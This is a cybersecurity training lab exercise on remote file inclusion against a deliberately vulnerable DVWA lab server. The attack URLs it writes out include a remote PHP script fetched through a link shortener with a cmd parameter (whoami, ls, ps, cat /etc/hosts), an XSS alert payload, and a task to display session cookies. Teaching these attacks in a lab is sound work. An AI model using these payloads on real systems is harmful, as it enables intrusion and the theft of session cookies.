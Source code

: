 ## Activity File: Remote File Inclusion 

- In this activity, you will continue your role as an application security engineer with Replicants.

- You've just tested the company's main production website and confirmed there is another back-end component vulnerability, **local file inclusion**.

- Your manager is now concerned that the website is also vulnerable to **remote file inclusion** and would like you to now test for this vulnerability.

- Your manager has asked you to propose a mitigation strategy based on your findings.

## Setup 

- Access Vagrant and open a browser.

- Return to the same webpage from the previous activity: <http://192.168.13.25>.

  - Select the **File Inclusion** option from the menu on the left side of the page.

    - Note that this is the same page where the directory traversal activity was done.

  - Alternatively, you can access the webpage directly by using this link: <http://192.168.13.25/vulnerabilities/fi/>.
  
-  The page should look like the following image:

    ![On DVWA, a red arrow points to File Inclusion on the left-side menu.](directory_traversal.png)

- **Note**: If you have any issues accessing this webpage, you might need to repeat the Activity Setup steps from this previous activity: [GitHub: SQL Injection](https://github.com/coding-boot-camp/cybersecurity-v2/blob/15.1_V2_Update/1-Lesson-Plans/15-Web-Vulnerabilities-and-Hardening/1/Activities/06_SQL_Injection/Unsolved/README.md).

## Instructions

The webpage you have revisited represents a page within Replicants website designed to display files within Replicants webserver. You previously determined this page has a directory traversal vulnerability. Complete the steps below to determine if this same webpage is also vulnerable to a **Remote File Inclusion** Vulnerability

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows refrencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in Vagrant, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file
    
4. **Bonus**: Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that contains XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the popup!

5. **Super Bonus**: Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint**: Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint**: To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
